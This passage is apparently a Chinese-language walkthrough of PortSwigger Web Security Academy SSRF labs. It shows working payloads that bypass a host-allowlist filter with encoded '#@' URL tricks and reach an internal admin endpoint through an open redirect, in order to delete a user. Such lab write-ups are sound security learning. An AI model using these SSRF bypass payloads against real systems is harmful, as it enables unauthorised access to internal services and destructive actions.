 => `"External stock check host must be stock.weliketoshop.net"`

最終嘗試

```js
encodeURIComponent(`http://localhost%23@stock.weliketoshop.net/admin`);
```

成功看到 `http://localhost/admin` 回傳的 response，推測是

1. `http://localhost%23@stock.weliketoshop.net/admin` => host 是 stock.weliketoshop.net，通過檢查 ✅
2. URL Decode 之後 `http://localhost#@stock.weliketoshop.net/admin`
3. `#@stock.weliketoshop.net` 被視為 fragment
4. `/admin` 是合法的 path
5. 最終請求 `http://localhost/admin`

之後再

```js
fetch(`${location.origin}/product/stock`, {
  headers: {
    "content-type": "application/x-www-form-urlencoded",
  },
  body: `stockApi=${encodeURIComponent(`http://localhost%23@stock.weliketoshop.net/admin/delete?username=carlos`)}`,
  method: "POST",
  mode: "cors",
  credentials: "include",
});
```

後來回頭看官方解答，真的很精妙 `http://localhost:80%2523@stock.weliketoshop.net/admin/delete?username=carlos`

`localhost:80%2523` => 雙重 URL Decode 之後 => `localhost:80#` => 利用 `localhost:80` 巧妙的跟 `username:password` 匹配

## Lab: SSRF with filter bypass via open redirection vulnerability

| Dimension | Description                                                                           |
| --------- | ------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/ssrf#bypassing-ssrf-filters-via-open-redirection |
| Lab       | https://portswigger.net/web-security/ssrf/lab-ssrf-filter-bypass-via-open-redirection |

觀察網頁右下角的 `Next Product`，連結 URL 是 `https://0aae007103e0e7af823d3d9c00cd00ec.web-security-academy.net/product/nextProduct?currentProductId=1&path=/product?productId=2`

嘗試 `path=https://www.google.com`，成功導轉，找到一個 Open Redirect，之後就

```js
fetch(`${location.origin}/product/stock`, {
  headers: {
    "content-type": "application/x-www-form-urlencoded",
  },
  body: `stockApi=${encodeURIComponent(`/product/nextProduct?currentProductId=1&path=http://192.168.0.12:8080/admin`)}`,
  method: "POST",
  mode: "cors",
  credentials: "include",
});
```
